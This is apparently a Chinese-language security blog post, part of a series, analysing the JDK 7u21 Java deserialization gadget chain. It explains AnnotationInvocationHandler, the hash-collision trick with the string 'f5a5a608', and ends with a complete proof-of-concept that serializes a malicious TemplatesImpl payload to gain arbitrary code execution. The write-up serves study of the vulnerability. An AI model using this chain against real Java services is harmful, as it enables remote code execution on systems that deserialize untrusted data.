




# Java反序列化漏洞系列-5

# [](#jdk-7u21-gadget)JDK 7U21 Gadget

问题

前面的文章中介绍的都是利用第三方库的反序列化利用链。没有合适的第三方库存在时，Java 反序列化是否还能利用。

首先，存在不依赖第三方库的 Java 反序列化利用链，但是，Java 新版本没有这样的问题。

## [](#1-%E5%8E%9F%E7%90%86)1 原理

JDK7u21 的核心点是 `sun.reflect.annotation.AnnotationInvocationHandler` ，这个类在之前的分析中提到过。在 `AnnotationInvocationHandler` 类中有个 `equalsImpl` 方法:



反射调用：`memberMethod.invoke(o)` ，而 `memberMethod` 来自于 `this.type.getDeclaredMethods()` 。



也就是说， `equalsImpl` 这个方法是将 `this.type` 类中的所有方法遍历并执行了。那么，假设 `this.type` 是 `Templates` 类，则势必会调用到其中的 `newTransformer()` 或 `getOutputProperties()` 方法，进而触发任意代码执行。这就是 JDK7u21 的核心原理。

## [](#2-%E6%9E%84%E9%80%A0)2 构造

现在的思路就是通过反序列化调用 `equalsImpl` ， `equalsImpl` 是一个私有方法，在 `AnnotationInvocationHandler#invoke` 中被调用：


`InvocationHandler` 是一个接口，只有一个方法就是 `invoke`。

前面的文章提到过，在使用 `java.reflect.Proxy` 动态绑定一个接口时，如果调用该接口中任意一个方法，会执行到 `InvocationHandler#invoke`。执行 `invoke` 时，被传入的第一个参数是这个 `proxy` 对象，第二个参数是被执行的方法名，第三个参数是执行时的参数列表。

而 `AnnotationInvocationHandler` 就是一个 `InvocationHandler` 接口的实现，它的 `invoke` 方法:


可见，当方法名等于 `equals`，且仅有一个 `Object` 类型参数时，会调用到 `equalImpl` 方法。 所以，现在的问题变成，找到一个方法，在反序列化时对 `proxy` 调用 `equals` 方法。

## [](#3-%E8%B0%83%E7%94%A8%E9%93%BE)3 调用链

在比较 Java 对象时，常用到两种方法：

-   equals
-   compareTo

任意 Java 对象都拥有 `equals` 方法，它通常用于比较两个对象是否是同一个引用。另一个常见的会调用 `equals` 的场景就是集合 `set`。`set` 中储存的对象不允许重复，所以在添加对象的时候，势必会涉及到比较操作。

HashSet 的 readObject 方法:



这里使用了一个 HashMap，将对象保存在 HashMap 的 key 处来做去重。

跟进 HashMap 的 put 方法：


变量 `i` 就是哈希值。两个不同的对象的 `i` 相等时，才会执行到 `key.equals(k)` ，触发前面说过的代码执行。

接下来的思路就是为了让 proxy 对象的哈希，等于 TemplateImpl 对象的哈希。

计算哈希的主要是下面这两行代码：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>int hash = hash(key);<br>int i = indexFor(hash, table.length);<br>``` |

将其中的关键逻辑提取出来，可以得到下面这个函数:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```java<br>public static int hash(Object key) {<br>    int h = 0;<br>    h ^= key.hashCode();<br>    h ^= (h >>> 20) ^ (h >>> 12);<br>    h = h ^ (h >>> 7) ^ (h >>> 4);<br>    return h & 15;<br>}<br>``` |

除了 `key.hashCode()` 外再没有其他变量，所以 `proxy` 对象与 `TemplateImpl` 对象的哈希是否相等，仅取决于这两个对象的 `hashCode()` 返回值是否相等。`TemplateImpl` 的 `hashCode()` 是一个Native 方法，每次运行都会发生变化，理论上是无法预测的，所以想让 `proxy` 的 `hashCode()` 与之相等，只能通过 `proxy.hashCode()` 。

`proxy.hashCode()` 仍然会调用到 `AnnotationInvocationHandler#invoke` ，进而调用到 `AnnotationInvocationHandler#hashCodeImpl` ，跟进这个方法:



遍历这个 Map 中的每个 key 和 value，计算每个 `(127 * key.hashCode()) ^ value.hashCode()` 并求和。

JDK7u21 中使用了一个非常巧妙的方法：

-   当 `memberValues` 中只有一个 key 和一个 value 时，该哈希简化成 `(127 * key.hashCode()) ^ value.hashCode()`
-   当 `key.hashCode()==0` 时，任何数异或 0 的结果仍是它本身，所以该哈希简化成 `value.hashCode()`
-   当 `value` 就是 `TemplateImpl` 时，这两个哈希就变成完全相等

因此，通过寻找一个 hashCode 是 0 的对象作为的 key，将恶意 TemplateImpl 对象作为 value，这个 proxy 计算的 hashCode 就与 TemplateImpl 对象本身的 hashCode 相等了。

找一个 hashCode 是 0 的对象，通过一个简单的爆破程序来实现：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```java<br>public static void bruteHashCode()<br>{<br>    for (long i = 0; i < 9999999999L; i++) {<br>        if (Long.toHexString(i).hashCode() == 0) {<br>            System.out.println(Long.toHexString(i));<br>        }<br>    }<br>}<br>``` |

第一个结果是 `f5a5a608`，这个也是 ysoserial 中用到的字符串。

## [](#4-%E6%80%BB%E7%BB%93)4 总结

按照如下步骤来构造：

-   生成恶意 `TemplateImpl` 对象
-   实例化 `AnnotationInvocationHandler` 对象
    -   type 属性是 `TemplateImpl` 类
    -   memberValues 属性是一个 Map，Map 只有一个 key 和 value，key 是字符串 ， value 是前面生成的恶意 `TemplateImpl` 对象
-   对这个 `AnnotationInvocationHandler` 对象做一层代理，生成 proxy 对象
-   实例化一个 HashSet，这个 HashSet 有两个元素，分别是：
    -   `TemplateImpl` 对象
    -   `proxy` 对象
-   将 HashSet 对象进行序列化

反序列化触发代码执行的流程如下：

-   触发 HashSet 的 readObject 方法，其中使用 HashMap 的 key 做去重
-   去重时计算 HashSet 中的两个元素的 `hashCode` ，通过构造二者相等，进而触发 `equals()` 方法
-   调用 `AnnotationInvocationHandler#equalsImpl` 方法
-   `equalsImpl` 中遍历 `this.type` 的每个方法并调用
-   `this.type` 是 `TemplatesImpl` 类，所以触发了 `newTransform()` 或 `getOutputProperties()` 方法
-   任意代码执行

POC 如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>``` | ```java<br>package main.java;<br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br><br>import javax.xml.transform.Templates;<br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.reflect.Constructor;<br>import java.lang.reflect.Field;<br>import java.lang.reflect.InvocationHandler;<br>import java.lang.reflect.Proxy;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.HashSet;<br>import java.util.LinkedHashSet;<br>import java.util.Map;<br><br>public class OriginalGadgetDemo {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("/Volumes/MacOS/WorkSpace/JAVA/7u21Gadget/src/main/java/EvilTemplatesImpl.class"));<br>        TemplatesImpl templates = new TemplatesImpl();<br>        setFieldValue(templates, "_bytecodes", new byte[][]{code});<br>        setFieldValue(templates, "_name", "HelloTemplatesImpl");<br>        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());<br><br>        String zeroHashCodeStr = "f5a5a608";<br><br>        // 实例化一个map，并添加Magic Number为key，也就是f5a5a608，value先随便设置一个值<br>        HashMap map = new HashMap();<br>        map.put(zeroHashCodeStr, "foo");<br><br>        // 实例化AnnotationInvocationHandler类<br>        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);<br>        handlerConstructor.setAccessible(true);<br>        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);<br><br>        // 为tempHandler创造一层代理<br>        Templates proxy = (Templates) Proxy.newProxyInstance(OriginalGadgetDemo.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);<br><br>        // 实例化HashSet，并将两个对象放进去<br>        HashSet set = new LinkedHashSet();<br>        set.add(templates);<br>        set.add(proxy);<br><br>        // 将恶意templates设置到map中<br>        map.put(zeroHashCodeStr, templates);<br><br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(set);<br>        oos.close();<br><br>        // System.out.println(barr);<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        Object o = (Object)ois.readObject();<br>    }<br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从0开始学Java反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://wx.zsxq.com/dweb2/index/group/2212251881)

[深入 Java 原生反序列化 & JDK7u21 利用链分析](https://p2hm1n.com/2021/02/14/%e6%b7%b1%e5%85%a5-Java-%e5%8e%9f%e7%94%9f%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96-JDK7u21-%e5%88%a9%e7%94%a8%e9%93%be%e5%88%86%e6%9e%90/)
